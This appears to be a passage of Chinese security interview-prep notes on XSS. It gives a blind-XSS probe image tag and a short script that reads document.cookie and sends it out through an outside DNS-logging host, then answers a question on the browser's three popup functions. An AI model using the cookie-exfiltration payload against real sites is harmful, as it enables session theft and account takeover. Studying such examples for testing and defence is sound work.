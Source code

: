 ### XSS盲注例子

```
<img src=http://2wzi32.dnslog.cn>
```

![img](https://image.201068.xyz/assets/0.2.第二阶段面试题/wps1.jpg)

### XSS外带数据例子

外带cookie

```js
<script type="text/javascript">
    var arr=document.cookie.split(/[;=]/);
    var url = "http://"+arr[1]+".5wlni2.dnslog.cn/xxx.png"; 
    document.write('<img src="'+url+'" />');
</script>
```

![img](https://image.201068.xyz/assets/0.2.第二阶段面试题/wps2.jpg)

## 10、你能说说浏览器上有哪几种不同的弹窗吗？各个弹窗所使用的函数是什么？

有**三**种，

分别是`alert() `提示框、`confim()`对话框、`prompt()`输入框 

> 浏览器上有三种不同的弹窗，`alert() `提示框、`confim()`对话框、`prompt()`输入框

